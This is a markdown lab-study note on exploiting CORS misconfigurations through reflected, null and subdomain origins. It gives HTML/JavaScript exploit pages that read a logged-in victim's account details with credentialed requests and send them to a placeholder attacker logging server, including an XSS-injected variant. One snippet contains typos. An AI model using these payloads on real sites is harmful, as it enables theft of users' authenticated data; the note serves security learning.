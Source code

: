 ![[CORS.webp]]
# Recon

Analyse the app's responses to see if any explicitly support CORS:

- Access-Control-Allow-Origins: https://malicious-website.com

Identify what origins are allowed to submit CORS requests to the app, submit the following header in the requests:

- Origin: same-value

Identify if any of those requests can be used to send CORS request with credentials:

- Access-Control-Allow-Credentials: true

The examples from the labs can help create exploits to take advantage of these misconfigurations.
# Basic Origin Reflection

The app is allowing any Origin to submit a cross-origin request and view the authenticated response. This is possible because the app is returning the following headers in a response, which contains sensitive information about the logged in user:

```html
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: attacker.com
```

With these headers in the response, an attacker can host malicious code in their server that will submit a request to the vulnerable app and direct the authenticated response back to their server. Now, the attacker needs to trick the victim user into visiting their website while they are authenticated to the vulnerable application.

>[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

```html
<html>
<script>
	var req - newXMLHttpRequest();
	req.onload = reqListener;
	req.open('get','https://VULNERABLE-APP.com/accountDetails',true)
	req.withCredentials = true;
	req.send();

	function reqListener() {
		loation = 'https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+this.responseText;
	};
</script>
</html>
```
# Trusted Null Origin

The app is only allowing the "null" Origin to submit a cross-origin request and view the authenticated response. This is possible because the app is returning the following headers in a response, which contains sensitive information about the logged in user:

```html
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: null
```

With these headers in the response, an attacker can host malicious code in their server that will submit a request to the vulnerable app and direct the authenticated response back to their server. 

The malicious code will be within an \<iframe> that will cause the browser to set the Origin header to "null". The attacker now needs to trick the victim user into visiting their website while they are authenticated to the vulnerable application.

>[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

```html
<html>
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() {
        location='https://ATTACKERS-SERVER-LOG-LOCATION.com/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
</html>
```
# Subdomain Origin Allowed

The app is only allowing subdomains to send cross-origin requests and view the authenticated response. This is possible because the app is returning the following headers in a response, which contains sensitive information about the logged in user:

```html
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: subdomain.vulnerable-app.com
```

If the subdomain contains an XSS vulnerability, you can inject a script that will submit a request to the main application and send the response to the attacker’s server. This will work since the subdomain is allowed to view the authenticated responses from the main application.

When the XSS script executes, the Origin header's value will be **subdomain.vulnerable-app.com** (reason why is because the xss script is essentially a part of the application now). This allows the response to contain the authenticated data. The attacker now needs to trick the victim user into visiting their website, while they are authenticated to the vulnerable application.

>[!info]
>Make sure to set the file extension to .html or no extension also work in Exploit Server labs.

Make sure to encode the angle brackets \<> in the payload within the document.location to prevent breaking the payload. This payload is the exact same as the Basic Origin Reflection, except the payload is injected in the XSS vulnerable parameter of the Subdomain.

```html
<html>
<script>
    document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4%3cscript%3e var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='%2bthis.responseText; };%3c/script%3e&storeId=1"
</script>
</html>
```

The decoded version being:

```html
<html>
<script>
   document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4
      <script> 
         var req = new XMLHttpRequest(); 
         req.onload = reqListener;
         req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); 
         req.withCredentials = true; 
         req.send();
         function reqListener() {
            location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='+this.responseText; 
      };</script>&storeId=1"
</script>
</html>
```

